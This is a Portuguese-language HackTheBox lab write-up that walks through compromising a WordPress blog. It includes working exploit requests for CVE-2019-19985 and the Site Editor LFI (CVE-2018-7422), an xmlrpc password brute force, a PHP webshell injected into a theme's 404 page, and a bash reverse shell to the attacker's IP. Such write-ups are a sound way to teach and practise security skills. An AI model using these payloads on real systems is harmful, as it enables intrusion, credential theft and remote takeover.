# WordPress Skill Assessment - HackTheBox Write-up


## Índice

- [Reconhecimento Inicial](#reconhecimento-inicial)
- [Questão 1 — Versão do WordPress](#questão-1--versão-do-wordpress)
- [Questão 2 — Tema em uso](#questão-2--tema-em-uso)
- [Questão 3 — Flag em diretório com listing habilitado](#questão-3--flag-em-diretório-com-listing-habilitado)
- [Questão 4 — Usuário não-admin](#questão-4--usuário-não-admin)
- [Questão 5 — Download de arquivo via plugin vulnerável](#questão-5--download-de-arquivo-via-plugin-vulnerável)
- [Questão 6 — Versão do plugin vulnerável a LFI](#questão-6--versão-do-plugin-vulnerável-a-lfi)
- [Questão 7 — Usuário do sistema via LFI](#questão-7--usuário-do-sistema-via-lfi)
- [Questão 8 — Shell no sistema + flag final](#questão-8--shell-no-sistema--flag-final)
- [Flags](#flags)
- [Resumo de Aprendizado](#resumo-de-aprendizado)
- [Ferramentas Utilizadas](#ferramentas-utilizadas)

---

## Reconhecimento Inicial

Comecei enumerando o domínio raiz com gobuster:

```bash
gobuster dir -u http://10.129.2.37/ -w /usr/share/wordlists/dirb/common.txt
```

O resultado só trouxe recursos estáticos (`/css`, `/images`, `index.html`) — nada de `/wp-admin` ou `/wp-content`, ou seja, o WordPress não estava na raiz.

Fui então checar o HTML da página manualmente, procurando qualquer pista de link, subdomínio ou referência ao WordPress:

```bash
curl -s http://10.129.2.37/ | grep -Ein 'href=|src=|http|blog|wordpress|<!--'
```



E achei o link:

```html
<a href="http://blog.inlanefreight.local">Blog</a>
```

Como esse domínio interno `.local` não tinha DNS público, precisei mapear manualmente no `/etc/hosts`:

```
10.129.2.37 inlanefreight.htb blog.inlanefreight.htb inlanefreight.local blog.inlanefreight.local
```

Com isso o blog passou a resolver e pude seguir a enumeração pra valer.

---

## Questão 1 — Versão do WordPress

Com o subdomínio resolvendo, usei o wpscan:

```bash
wpscan --url http://blog.inlanefreight.local --no-update
```

(também dava pra confirmar via curl, buscando as strings de versão direto no HTML: `curl -s http://blog.inlanefreight.local/ | grep -iE 'wordpress|wp-content|wp-includes'`)



**Resposta:** `5.1.6`

---

## Questão 2 — Tema em uso

Bati direto na fonte, procurando o caminho do tema no HTML:

```bash
curl -s http://blog.inlanefreight.local/ | grep -oE 'wp-content/themes/[^/]+/' | sort -u
```



**Resposta:** `twentynineteen`

---

## Questão 3 — Flag em diretório com listing habilitado

Rodei o gobuster no vhost do blog pra mapear a estrutura padrão do WordPress:

```bash
gobuster dir -u http://blog.inlanefreight.local -w /usr/share/wordlists/dirb/common.txt
```

Confirmei a estrutura de sempre (`/wp-admin/`, `/wp-content/`, `/wp-includes/`), a maioria protegida com 403 ou redirect. Mas em CTF, geralmente sobra algum diretório aberto — pra não ficar testando um por um na mão, automatizei a checagem:

```bash
for dir in wp-content/uploads wp-content/plugins wp-content/themes wp-includes; do
  echo -e "\n===== /$dir/ ====="
  curl -s "http://blog.inlanefreight.local/$dir/" | grep -iE 'Index of|flag|<title>'
done
```



O `/wp-content/uploads/` respondeu com directory listing ativo, revelando o arquivo `upload_flag.txt`.

**Resposta:** `-`

---

## Questão 4 — Usuário não-admin

Antes de ir de wpscan, achei o usuário "erika" navegando pelos posts (autor de um artigo, visível em `?author=2`), mas sem sobrenome disponível ali. Pra ter certeza e pegar o nome completo, enumerei os usuários formalmente:

```bash
wpscan --url http://blog.inlanefreight.local --enumerate u --disable-tls-checks
```



**Resposta:** `Charlie Wiggins`

---

## Questão 5 — Download de arquivo via plugin vulnerável

Enumerei os plugins instalados:

```bash
wpscan --url http://blog.inlanefreight.local --enumerate p --plugins-detection mixed
```



O destaque foi o **Email Subscribers & Newsletters**, versão `4.2.2`, com directory listing habilitado no próprio diretório do plugin. Pesquisei e confirmei que essa versão é vulnerável a um Unauthenticated Arbitrary File Download, catalogado como **CVE-2019-19985**.

A rota vulnerável permite exportar a lista de contatos sem autenticação:

```bash
curl -i 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```



O servidor devolveu um CSV (`Content-Disposition: attachment; filename=all-contacts.csv`) e a flag estava, curiosamente, no campo "Last Name" de um dos contatos.

**Resposta:** `-`

---

## Questão 6 — Versão do plugin vulnerável a LFI

Listei todos os plugins presentes no HTML:

```bash
curl -s http://blog.inlanefreight.local/ | grep -oE 'wp-content/plugins/[^/]+' | sort -u
```

Resultado: `email-subscribers`, `site-editor` e `the-events-calendar`. Pra pegar a versão de cada um, fui direto no `readme.txt`, que no WordPress quase sempre expõe a versão no campo "Stable tag":

```bash
for plugin in email-subscribers site-editor the-events-calendar; do
  echo -e "\n===== $plugin ====="
  curl -s "http://blog.inlanefreight.local/wp-content/plugins/$plugin/readme.txt" | grep -iE 'stable tag|version|tested up'
done
```



O `site-editor` acusou `Stable tag: 1.1.1`. Confirmei a vulnerabilidade no searchsploit:

```bash
searchsploit "site editor wordpress"
```

Que retornou: *WordPress Plugin Site Editor 1.1.1 - Local File Inclusion* (correspondente à **CVE-2018-7422**).

**Resposta:** `1.1.1`

---

## Questão 7 — Usuário do sistema via LFI

Com a LFI confirmada, explorei o endpoint vulnerável do site-editor pra ler o `/etc/passwd`:

```bash
curl -s 'http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd'
```

(dependendo do path relativo do ambiente, às vezes é preciso ir subindo diretórios com `../../` até acertar o caminho absoluto)



Com o conteúdo do `/etc/passwd` na tela, bastou procurar o usuário começando com "f" na lista.

**Resposta:** `frank.mclane`

---

## Questão 8 — Shell no sistema + flag final

Com o usuário "erika" já identificado antes, tentei quebrar a senha via brute force no xmlrpc:

```bash
wpscan --password-attack xmlrpc -t 20 -U erika -P rockyou.txt --url http://blog.inlanefreight.local
```



Achei a combinação válida: `erika:010203`.

Com login e senha, entrei em `http://blog.inlanefreight.local/wp-login.php`, fui até o editor de temas e injetei um webshell simples na página 404 do tema ativo:

```php
if (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
}
```



Testei a execução remota:

```bash
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

Confirmado o RCE, montei uma reverse shell:

```bash
curl -G \
  --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.115/4444 0>&1"' \
  'http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php'
```

Com o listener (`nc -lvnp 4444`) recebendo a conexão, estabilizei a shell e naveguei até `/home/erika`, onde estava a flag final.



---

## Flags

| Questão | Resposta |
|---|---|
| 1 — Versão do WordPress | `5.1.6` |
| 2 — Tema em uso | `twentynineteen` |
| 3 — Directory listing | `-` |
| 4 — Usuário não-admin | `Charlie Wiggins` |
| 5 — Unauthenticated file download | `-` |
| 6 — Versão do plugin LFI | `1.1.1` |
| 7 — Usuário do sistema (letra "f") | `frank.mclane` |
| 8 — Flag em `/home/erika` | Obtida via reverse shell |

---

## Resumo de Aprendizado

Este assessment reforçou:

1. **Enumeração de vhosts** — nem sempre a aplicação alvo está na raiz do domínio; vale sempre checar o código-fonte em busca de referências a subdomínios internos.
2. **WPScan na prática** — identificação de versão, tema, usuários e plugins vulneráveis diretamente pela ferramenta.
3. **CVEs em plugins WordPress** — Unauthenticated Arbitrary File Download (CVE-2019-19985) e Local File Inclusion (CVE-2018-7422) em plugins desatualizados.
4. **Directory listing mal configurado** — um erro simples de configuração pode expor arquivos sensíveis diretamente.
5. **Password attack via XML-RPC** — brute force de credenciais usando o wpscan.
6. **Da shell web ao RCE** — uso do editor de temas do WordPress para injetar código PHP e obter execução remota de comandos.

---

## Ferramentas Utilizadas

- gobuster
- wpscan
- curl
- searchsploit
- netcat (nc)
- /etc/hosts (mapeamento manual de vhost)

---

**Status:** ✅ Assessment concluído!
